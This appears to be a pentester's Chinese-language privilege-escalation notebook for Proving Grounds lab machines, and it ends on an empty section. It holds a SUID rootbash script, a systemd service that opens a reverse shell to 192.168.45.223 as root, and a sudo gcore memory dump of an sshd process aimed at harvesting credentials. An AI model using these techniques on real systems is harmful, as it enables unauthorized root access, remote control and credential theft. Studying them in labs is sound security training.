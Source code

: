 ```
#!/bin/bash 
cp /bin/bash /tmp/rootbash 
chmod +xs /tmp/rootbash
```
# 提權隨筆
>[!note]
>紀錄一些雜項技術以及靶機筆記
## 透過重新啟動時帶動的服務
>[!note]
>Proving Grounds -Hetemit

``` title:linux.server
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/cmeeks/restjson_hetemit
ExecStart= bash -c "bash -i >& /dev/tcp/192.168.45.223/50000 0>&1"
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target

```
## sudo gcore提權手法
>[!note]
>Proving Grounds -Pelican

>It can be used to generate core dumps of running processes. Such files often contains sensitive information such as open files content, cryptographic keys, passwords, etc. This command produces a binary file named `core.$PID`, that is then often filtered with `strings` to narrow down relevant information.

根據gtfobins描述，gcore可以撈到process裡面的memory，所以可以做兩個方面的利用
### 抓取ssh process
``` =
charles@instance-1:/etc$ ps -ef | grep ssh
root      1655     1  0 May29 ?        00:00:09 /usr/sbin/sshd -D
root     26334  1655  0 20:17 ?        00:00:00 sshd: charles [priv]
charles  26370 26334  0 20:17 ?        00:00:00 sshd: charles@pts/0
root     29467  1655  0 21:06 ?        00:00:00 sshd: Andre [priv]
Andre    29503 29467  0 21:06 ?        00:00:00 sshd: Andre@pts/1
charles  29551 26371  0 21:07 pts/0    00:00:00 grep --color=auto ssh
```
```
charles@instance-1:/etc$ sudo gcore 29467
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
0x00007fb85ba4d7f0 in __poll_nocancel () at ../sysdeps/unix/syscall-template.S:84
84      ../sysdeps/unix/syscall-template.S: No such file or directory.
Saved corefile core.29467
```
### 抓取`/usr/bin/password-store`
```
```